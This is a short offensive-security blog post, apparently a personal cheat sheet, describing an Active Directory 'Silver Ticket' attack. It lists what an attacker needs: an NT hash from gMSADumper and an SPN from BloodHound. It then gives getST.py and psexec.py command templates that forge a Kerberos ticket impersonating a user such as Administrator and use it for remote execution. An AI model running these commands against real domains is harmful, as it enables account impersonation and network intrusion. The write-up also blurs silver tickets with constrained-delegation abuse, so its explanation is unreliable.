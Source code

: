 ```yaml
---
layout: single
title: Silver Ticket
excerpt: "El ataque Silver Ticket Attack consiste en craftear un tiket TGS válido mediante la disposición de un ticket NT válido para un usuario que pertenezca al gMSA (Group Managed Service Accounts)."
date: 2021-11-29
classes: wide
header:
  teaser: /assets/images/Tools/bash-icon.png
  teaser_home_page: true
  icon: /assets/images/tool.png
categories:
  - Tools
tags:
  - CLI
  - Active Directory

---
```



# Definición

The Silver ticket attack is based on **crafting a valid TGS for a service once the NTLM hash of service is owned** (like the **PC account hash**). Thus, it is possible to **gain access to that service** by forging a custom TGS **as any user**.

# Explotación
## Requisitos 
 * User 
 * UserToImpersonate (Administrator?)
 * Hash NT
	 * Podemos obtenerlo con la herrramienta gMSADumper.py, con credenciales válidas al AC.
 * Dominio
 * IP del dominio
 * Service Principal Name (spn)
	 *  Podemos obtenerlo con Bloodhound-Python en \*\_computers.json, en la sección "allowedtodelegate"


## getST.py
```bash
getST.py -spn <spn> -impersonate <UserToImpersonate> -hashes :<Hash NT> -dc-ip <IP del dominio> <Dominio>/<User>
```

Esto guardará un ticket en el archivo \<UserToImpersonate>.ccache

## psexec.py

```bash
KRB5CCNAME=<UserToImpersonate>.ccache psexec.py <Dominio>/<UserToImpersonate>@<IP del dominio> -no-pass -k
```

De esta forma habríamos impersonalizado al usuario.


---

Escrito el 29-11-2021 a las 04:13 pm por creep33.

